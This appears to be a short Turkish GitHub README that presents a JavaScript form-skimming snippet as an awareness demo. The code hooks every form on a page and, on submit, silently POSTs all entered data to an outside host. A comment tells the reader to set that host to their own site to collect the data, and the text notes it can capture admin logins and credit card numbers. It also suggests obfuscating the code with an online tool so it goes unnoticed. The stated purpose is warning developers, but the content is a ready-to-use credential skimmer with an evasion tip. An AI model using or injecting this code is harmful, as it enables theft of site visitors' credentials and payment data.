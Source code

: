 # Adding_Open_to_Script_Front_End

## TAMAMEN BİLGİLENDİRME AMAÇLIDIR BASİT BİR JAVASCRİPT KODUNUN BAŞINIZA AÇABİLECEĞİ SORUNLARI GÖRMENİZ İÇİN

## Kod

````js
document.addEventListener('DOMContentLoaded', function() {
  var forms = document.querySelectorAll('form'); 
  forms.forEach(function(form) {
    form.addEventListener('submit', function(event) {

      var formData = new FormData(form);

      fetch('https://mysite.com/target', { // Kendi sitenizin linkini girin dataları oradan alacaksınız
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams(formData)
      })
      .then(function(response) {
        if (response.ok) {
          console.log('Form bilgileri başarıyla gönderildi.');
        } else {
          console.log('Bir hata oluştu. İstek durumu:', response.status);
        }
      })
      .catch(function(error) {
        console.log('Bir hata oluştu:', error);
      });

      form.reset();
    });
  });
});
```

## Ne işe yarıyor?

Yukarıdaki Kod Sayesinde Yaptığınız Front End'e Bir Açık Ekleyebilirsiniz (Tam Olarak Açık Sayılmaz. Sadece Form'a Girilen Bilgileri Kendi Sitenize Post Ediyorsunuz). Bu sayede admin paneli giriş bilgilerinizi veya kredi kartı bilgilerinizi çaldırabilirsiniz. Bu Sebepten dolayı javascript kodlarını inceleyin her bulduğunuz şeyi sitenize direkt olarak eklemeyin.

- Ek olarak

https://obfuscator.io/ üzerinden şifrelenmiş ise kod anlamanız imkansız olur. Sadece geliştirici sekmesindeki ağ kısmından fark edebilirsiniz.

---
- ✨ [Destek İçin](https://fastuptime.com) <br>
- 💕 [Discord](https://fastuptime.com/discord)<br>
- 🎖️ [FasterHost Technology](https://fasterhost.tech/)<br>
- ✨ İletişim için [Tıkla!](mailto:fastuptime@gmail.com)<br>

# License
- Its protected by Creative Commons ([CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/))

<a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" title="BYNCSA40"><img src="https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png"></a>
